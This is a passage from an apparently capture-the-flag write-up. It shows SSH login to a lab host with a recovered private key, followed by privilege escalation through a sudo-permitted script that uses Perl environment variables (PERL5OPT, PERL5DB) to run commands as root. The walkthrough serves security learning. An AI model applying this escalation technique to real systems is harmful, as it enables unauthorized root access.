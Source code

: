 We got it!!

let's copy it locally and use it to log in....


We put the key into a file and give it the following permissions:
```
chmod 600 "key file"
```

That is how ssh keys work.

Note: you need to fix the file because it  missing a - first line and last line, you can figure such things easily when comparing it to a valid key.


Then we will login:
```
ssh -i "key file" jack@10.10.11.232
```

And we have user!

![](./images/20230927141849.png)

If we do sudo -l as the user we can see that we can run a script and set env variables without password as root:

![](./images/20230927142130.png)

Let's see if we can exploit this script somehow...

This article was really helpful to exploit the environment variable so we can get root.
Link: https://www.elttam.com/blog/env/#content

So we can use perl environment variables to execute commands, and since we can do it with sudo that means they will be as root.

Let's try this id command as a test:
```
sudo PERL5OPT=-d PERL5DB='system("id");' /opt/monitor.sh
```

![](./images/20230927152126.png)
